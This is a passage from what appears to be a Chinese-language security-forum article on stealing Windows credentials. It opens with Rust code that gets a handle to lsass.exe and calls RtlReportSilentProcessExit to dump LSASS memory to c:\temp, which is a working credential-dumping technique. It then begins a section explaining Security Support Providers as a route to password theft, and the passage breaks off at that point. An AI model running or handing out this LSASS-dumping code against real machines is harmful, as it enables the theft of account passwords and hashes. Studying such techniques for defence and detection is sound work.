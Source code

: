 ```rust
    let process_handle = unsafe { OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPid) };
    if process_handle == 0 {
        println!("Fail to open the Lsassprocess ");
    }
    unsafe{
        let ntdll_module_name: Vec<u16> = OsStr::new("ntdll.dll").encode_wide().chain(Some(0).into_iter()).collect();
        let h_nt_mod =  GetModuleHandleW(ntdll_module_name.as_ptr());

        if h_nt_mod ==0 {
            println!(" - 获取NTDLL模块句柄失败");

        }
        let function_name = CString::new("RtlReportSilentProcessExit").unwrap();

        let FnRtlreportSilentProcessExit  = GetProcAddress(
            h_nt_mod, 
            function_name.as_ptr() as *const u8).expect("") ;
        let fn_rtl_report_silent_process_exit : FnRtlreportSilentProcessExit = transmute(FnRtlreportSilentProcessExit);
        let desired_access = PROCESS_QUERY_LIMITED_INFORMATION | PROCESS_VM_READ;
        let h_lsass_proc = OpenProcess(desired_access, 0, lsassPid);
        if h_lsass_proc == 0 {
            println!("[+] 获取lsass进程句柄失败: {:X}", GetLastError());
        }
        println!("[+] Got {:?} PID: {:?}","lsass.exe",lsassPid as u32);

        let ntstatus = fn_rtl_report_silent_process_exit(h_lsass_proc,0);
        if ntstatus == 0{
            println!("[+] DumpLsass Successful and file is c:\\temp\\lsass*.dmp...RET CODE : %#X\n");
        }else {
            println!("FnRtlreportSilentProcessExit error!");
        }
    }

}

```

添加自定义的SSP
---------

> SSP（Security Support Provider）是windows操作系统安全机制的提供者。简单的说，SSP就是DLL文件，主要用于windows操作系统的身份认证功能，例如NTLM、Kerberos、Negotiate、Secure Channel（Schannel）、Digest、Credential（CredSSP）。  
> SSPI（Security Support Provider Interface，安全支持提供程序接口）是windows操作系统在执行认证操作时使用的API接口。可以说SSPI就是SSP的API接口。

官方解释  
![](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-f4621f13f569e0edfda795b51eb5225a81f0b24a.png)  
在windowsw中lsass.exe和winlogin.exe进程是用来管理登录的两个进程，都包含在LSA(Local Security Authority)里面，它主要是负责运行windows系统安全策略。SSP在windows启动之后，会被加载到lsass.exe进程中，所以关于SSP的用户密码窃取一般是下面几种方法。
